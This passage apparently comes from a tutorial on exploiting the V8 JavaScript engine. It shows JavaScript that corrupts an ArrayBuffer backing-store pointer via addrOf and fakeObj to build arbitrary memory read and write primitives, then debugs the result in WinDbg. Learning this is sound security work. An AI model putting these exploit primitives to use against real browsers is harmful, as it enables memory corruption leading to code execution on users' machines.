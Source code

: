 To test if this works, let's try using the `write64` memory primitive to write the value `0x41414141n` to the second array buffer's backing store. The code for that would look like this:

```js
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);

// Create Array Buffers
let arrBuf1 = new ArrayBuffer(1024);
let arrBuf2 = new ArrayBuffer(1024);

// Leak Address of arrBuf2
print("[+] Leaking ArrayBuffer Address...");
let arrBuf2Addr = addrOf(arrBuf2);
print(`[+] ArrayBuffer Address: 0x${arrBuf2Addr.toString(16)}`);

// Corrupt Backing Store Pointer of arrBuf1 with Address to arrBuf2
print("[+] Corrupting ArrayBuffer Backing Store Address...")
let originalArrBuf1BackingStore = fakeObj(arrBuf1, arrBuf2Addr);

// Store Original Backing Store Pointer of arrBuf2
let view1 = new BigUint64Array(arrBuf1)
let originalArrBuf2BackingStore = view1[4]

// Construct our Memory Read and Write Primitive
let memory = {
	read64(addr) {
		view1[4] = addr;
		let view2 = new BigUint64Array(arrBuf2);
		return view2[0];
	},
	write64(addr, ptr) {
		view1[4] = addr;
		let view2 = new BigUint64Array(arrBuf2);
		view2[0] = ptr;
	}
};
print("[+] Constructed Memory Read and Write Primitive!");

// Write Data to Second Array Buffer
memory.write64(originalArrBuf2BackingStore, 0x41414141n);
%DebugPrint(arrBuf2);
```

Next, we can use WinDbg again to debug this by setting a breakpoint on `RUNTIME_FUNCTION(Runtime_DebugPrint)` and then executing the script. Once we hit the breakpoint, type `g` or press `Go`, and then press `Shift + F11` or "Step Over" to see the debug output in the console.

